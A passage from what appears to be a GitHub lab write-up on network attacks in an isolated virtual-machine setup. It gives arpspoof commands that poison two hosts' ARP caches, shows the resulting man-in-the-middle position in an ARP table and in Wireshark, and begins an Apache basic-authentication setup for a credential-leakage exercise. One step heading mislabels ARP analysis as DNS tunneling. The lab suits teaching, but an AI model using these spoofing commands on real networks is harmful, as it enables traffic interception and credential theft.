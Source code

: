 ```bash
sudo arpspoof -i enp0s3 -t 10.10.10.100 10.10.10.50
```

```bash
sudo arpspoof -i enp0s3 -t 10.10.10.50 10.10.10.100
```

- ### Display the current ARP table with `arp -n`:

<img width="723" height="182" alt="Lab 48" src="https://github.com/user-attachments/assets/50fe0e47-7049-4dcb-b1fa-cc6870792245" /></br>

### *The current ARP table shows that the `Server VM` associates the IP `10.10.10.100` (the sender) with the attacker's MAC address `08:00:27:a4:29:a6`.*

---

### Step 3: Analyze the `DNS Tunneling` in Wireshark

- ### Apply the display filter: `arp`

<img width="1068" height="887" alt="Lab 47" src="https://github.com/user-attachments/assets/a19037e5-831b-4efe-8d28-40819f4a32df" /></br>

The ARP spoofing was successful because the victim’s ARP cache was tricked into associating the attacker’s MAC address with the IP address `10.10.10.100`. This allows the attacker to intercept or alter network traffic between the victim and the legitimate sender, effectively enabling a `man-in-the-middle` (MITM) attack.

---

<img width="1340" height="120" alt="credential drawio" src="https://github.com/user-attachments/assets/c5d9029a-0301-49df-9c58-127ae6fb4d8f" />

## CREDENTIAL LEAKAGE

### Step 1: Install and Configure `Apache` with Basic Authentication on the `Server VM`

- ### Update package lists and install Apache:
```bash
sudo apt update
sudo apt install apache2 -y
```

- ### Install Apache utilities to manage authentication:
```bash
sudo apt install apache2-utils -y
```

- ### Create a secure directory and set up a username/password for basic authentication:
```bash
sudo mkdir /var/www/html/secure
sudo htpasswd -c /etc/apache2/.htpasswd test
```
